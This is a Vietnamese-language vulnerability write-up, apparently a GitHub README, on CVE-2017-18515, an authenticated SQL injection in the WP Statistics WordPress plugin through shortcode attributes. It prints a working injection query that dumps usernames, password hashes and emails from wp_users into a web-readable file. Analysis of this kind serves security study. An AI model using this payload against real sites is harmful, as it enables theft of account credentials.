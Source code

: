  CVE-2017-18515
- Plugin : wpstatistics
- Phiên bản lỗi: 12.0.7
- Lỗi: (Authenticated) Blind SQL Injection

 a)Mô tả 
- Plugin này cho phép người dùng sử dụng 1 số các shortcode để thông kê 1 số các thông tin(số người online, tổng số người đã ghé qua page,…) .
- Nhưng do 1 không kiểm soát đầu vào chặn chẽ nên khi kẻ tấn công vào được trang quản trị thì hacker có thể từ các tham số trong shortcode để thực hiện các truy vấn độc hại.

 b)Hàm sử lý bị lỗi
- Trong số các chức năng khác, Thống kê WP cho phép người dùng quản trị nhận thông tin chi tiết liên quan đến số lượt truy cập chỉ bằng cách gọi mã ngắn bên dưới:
![image](https://github.com/Manh130902/wordpress/assets/93723285/1dba6335-b6ad-495a-a161-8f541a75f4b6)
![image](https://github.com/Manh130902/wordpress/assets/93723285/c542372a-99be-455f-bc15-8a5f0b71e843)

 
- Một số thuộc tính của mã ngắn wpstatistics đang được truyền dưới dạng tham số cho các chức năng quan trọng nhưng không được làm sạch
![image](https://github.com/Manh130902/wordpress/assets/93723285/a430902a-0cfb-4352-b488-c50c94406a4a)
![image](https://github.com/Manh130902/wordpress/assets/93723285/9472ca93-5733-4a59-9599-160317f11129)

 
- Một trong những chức năng dễ bị tấn công wp_statistics_searchengine_query() trong tệp “include/functions/functions.php”
- Về cơ bản, wp_statistics_searchengine_query () trả về giá trị giống như giá trị được chuyển trong nhà cung cấp thuộc tính mã ngắn và nội dung của nó được thêm trực tiếp vào truy vấn SQL .

 c)Khai thác
- Khi ta vào được trang admin ta vào phần page và gọi lên shortcode
![image](https://github.com/Manh130902/wordpress/assets/93723285/8b61e134-0277-4363-b843-7e99b77cf5b8)
  
- Truy vấn trong thực hiện sẽ là

SELECT * FROM wp_statistics_useronline  WHERE provider="123'union select 1,2,user_login,user_pass,user_email,6 from wp_users into outfile '/opt/lampp/htdocs/wordpress/wp-content/uploads/test.txt'#"

- Kết quả là kết quả của truy vấn sẽ gửi về file test.txt
![image](https://github.com/Manh130902/wordpress/assets/93723285/414fdac5-e0d6-4462-9795-bbb31796159a)
 

